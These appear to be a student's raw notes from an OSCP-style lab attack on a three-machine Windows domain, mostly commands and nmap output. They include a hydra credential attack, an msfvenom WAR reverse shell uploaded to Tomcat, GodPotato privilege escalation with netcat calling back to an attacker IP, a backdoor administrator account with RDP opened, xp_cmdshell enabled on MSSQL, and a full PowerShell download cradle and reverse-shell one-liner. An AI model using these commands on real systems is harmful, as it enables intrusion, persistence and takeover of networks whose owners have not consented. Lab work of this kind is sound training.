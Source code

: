 
All machines on same network
Nmap scan

nmap -p- -sV -sC -Pn 192.168.102.100 --open 
nmap -p- -sV -sC -Pn 192.168.102.101 --open 
nmap -p- -sV -sC -Pn 192.168.102.102 --open 

port 8080 open apache tomcat 8.5.91, tried with default usernames

hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://192.168.102.101:8080/manager/html - Unsuccessful

gobuster tomcat - unsuccessful

gobuster dir -u http://192.168.102.101:8080 -w /usr/share/seclists/Discovery/Web-Content/ApacheTomcat.fuzz.txt 

Query DC for usernames

nmap -p 389 --script ldap-search --script-args 'ldap.username="cn=administrator,cn=users,dc=exam,dc=exam",ldap.qfilter=users,ldap.attrib=sAMAccountName' -Pn 192.168.102.100

ldap search

ldapsearch -x -b "dc=oscp,dc=exam" "*" -H ldap://192.168.102.100  | awk '/dn: / {print $2}'

tried with lisa lisa on tomcat , got the access

created msfvenom shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.49.102 LPORT=8080 -f war -o revshell_jsp.war

logged into tomcat with lisa lisa 
uploaded war file on http://192.168.102.101:8080/manager/html/list

start listener on port nc -nlvp 8080 and click on uploaded shell

got reverse connection
got local flag

privesc

checked privileges   whoami /all
SeImpersonatePrivilege Enabled, printspoofer vulnerability should work

Used GodPotato [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato "https://github.com/BeichenDream/GodPotato")

wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe

curl http://192.168.49.102/GodPotato-NET4.exe -o GodPotato-NET4.exe

download nc.exe
https://github.com/int0x33/nc.exe/tree/master

GodPotato-NET4.exe -cmd "nc.exe 192.168.49.102 80 -e cmd.exe"

limited shell therefore added new user and enabled rdp

net user /add jack Password@12345
net localgroup administrators jack /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

using remmina got RDP access

found stickynotes in administrator Documents
Opened with Stick notes application

found password of svc_sql

tried on 102 with crackmapexec mssql

crackmapexec mssql 192.168.102.102 -u svc_sql -p "Hard2Work4Style8"

valid user

used impacket-mssqlclient

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

revershell from mssql

EXEC xp_cmdshell 'echo IEX (New-Object Net.WebClient).DownloadString("http://192.168.49.102/rev.ps1") | powershell -noprofile'

$client = New-Object System.Net.Sockets.TCPClient('192.168.49.102',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 












192.168.102.100 - entry point
	
	PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-02-28 03:20:56Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: oscp.exam0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: oscp.exam0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49701/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53027/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC20  ftp-data
	
		389/tcp open  ldap
| ldap-search: 
|   Context: DC=oscp,DC=exam; QFilter: users; Attributes: sAMAccountName
|     dn: CN=Guest,CN=Users,DC=oscp,DC=exam
|         sAMAccountName: Guest
|     dn: CN=lisa,CN=Users,DC=oscp,DC=exam
|         sAMAccountName: lisa
|     dn: CN=svc_sql,CN=Users,DC=oscp,DC=exam
|_        sAMAccountName: svc_sql

DC=oscp,DC=exam
CN=Administrator,CN=Users,DC=oscp,DC=exam
CN=Guest,CN=Users,DC=oscp,DC=exam
CN=krbtgt,CN=Users,DC=oscp,DC=exam
CN=Domain
CN=Domain
CN=Schema
CN=Enterprise
CN=Cert
CN=Domain
CN=Domain
CN=Domain
CN=Group
CN=RAS
CN=Allowed
CN=Denied
CN=Read-only
CN=Enterprise
CN=Cloneable
CN=Protected
CN=Key
CN=Enterprise
CN=DnsAdmins,CN=Users,DC=oscp,DC=exam
CN=DnsUpdateProxy,CN=Users,DC=oscp,DC=exam
CN=lisa,CN=Users,DC=oscp,DC=exam
CN=betty,CN=Users,DC=oscp,DC=exam
CN=svc_sql,CN=Users,DC=oscp,DC=exam


		
192.168.102.101

135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http          syn-ack ttl 127 Apache Tomcat 8.5.19
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.19
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

gobuster on 8080 with common and big no results

192.168.102.102

PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.102.102:1433: 
|     Target_Name: oscp
|     NetBIOS_Domain_Name: oscp
|     NetBIOS_Computer_Name: MS02
|     DNS_Domain_Name: oscp.exam
|     DNS_Computer_Name: ms02.oscp.exam
|     DNS_Tree_Name: oscp.exam
|_    Product_Version: 10.0.17763
|_ssl-date: 2024-02-28T03:25:05+00:00; +2s from scanner time.
| ms-sql-info: 
|   192.168.102.102:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-17T19:18:13
| Not valid after:  2054-01-17T19:18:13
| MD5:   fbc5:7a53:862f:0b5b:ed91:f356:6648:a76b
| SHA-1: 4503:8be0:fcc4:b2f3:a15d:e1e2:fd61:608c:fd75:d9b2
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQbiVxxpfvuLVEZTFrKa+k7DANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwMTE3MTkxODEzWhgPMjA1NDAxMTcxOTE4MTNaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAK7NbILh
| dBwvl469Deq6UFhtChDU9AP2ARb9GEg7LGEiSnNKvYC4Bx0BsPv4aCXUGoOK/p5a
| ihfQEjl3u1xZuQf3J8z87CUaF2rZWa78G9YrEVR0DjDyN6i7HL8H6ByCpxL1m70c
| UZNq0LkFZSyGAZajQKL8y+po+kmAu19Ly7e1olV2JeVUm446gQBENrj92Fsi0Uio
| shyKyZ6CSNsRPZL7Fuvfh7H5QgeHwEEcrsjRM0wh+RR/pO5eGB/v655UFy5AZld6
| OA8UF/xfrXtOSinkoZurPd4XYuWdvOL47bxIOR38w0vpR8HQoVdhdkzl6NddTmpd
| KmcyIyz1yevxs+kCAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAFpvex/WwDYAm9t4t
| O8MZmS9BgdkTiH5auqyV1ZL6jFsif4Hi+GxXWVfxpbJKTYcPTo90bxugN3Pa90Ad
| H8H7f/kKjCEV/Aua02Y/7iBx5JiDe2U/zKNwbtzXVZTlPgEMzk41usCO/mP+NvXe
| PoZK4VeB4r4za3hdz/yWlkgGoJBgo8tsqvWROH54DYfth+TfHD+B9pXzR/s4K+2U
| Dh6EvHIuiUpuxnS7WEVHGLyGTHRibUpJSeFqKVfpc3PXKiVkJnuf1WtFwhfj94k2
| 9kfrd2s+txaXxJvBctz7th/DtNqpdeg+pPH410qDF7S2lZ+6BVvrorKz07sHd08I
| G78nYA==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

got password of lisa  -- domain user
got all users with get ADuser
sprayed crackmapexec smb for all users
sprayed getspn and getnpuser for all

No success

MSSQL server??


